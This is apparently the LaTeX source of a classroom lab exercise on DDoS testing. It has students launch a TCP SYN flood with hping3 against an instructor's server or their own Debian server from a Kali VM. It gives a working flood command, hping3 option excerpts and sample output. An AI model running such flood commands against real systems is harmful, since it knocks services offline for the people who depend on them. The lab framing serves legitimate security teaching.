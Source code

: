 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
\chapter{\faInfoCircle\ TCP SYN flooding 30min}
\label{ex:syn-flood}

{\bf Objective:}\\
Start a webserver attack using SYN flooding tool hping3.

{\bf Purpose:}\\
See how easy it is to produce packets on a network using hacker programs.

The tool we will use is very flexible and can produce ICMP, UDP and TCP using very few options. This tool is my primary one for doing professsional DDoS testing.

\begin{alltt}\footnotesize
-1 --icmp
       ICMP  mode,  by  default  hping3  will  send  ICMP echo-request, you can set other ICMP
       type/code using --icmptype --icmpcode options.

-2 --udp
       UDP mode, by default hping3 will send udp to target host's port 0.  UDP header  tunable
       options are the following: --baseport, --destport, --keep.
\end{alltt}

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

Try doing the most common attacks TCP SYN flood using hping3:

\begin{alltt}
hping3 --flood -p 80 -S 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100%
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}

You can try different ports with TCP flooding, try port 22/tcp or HTTP(S) port 80/tcp and 443/tcp
\end{document}
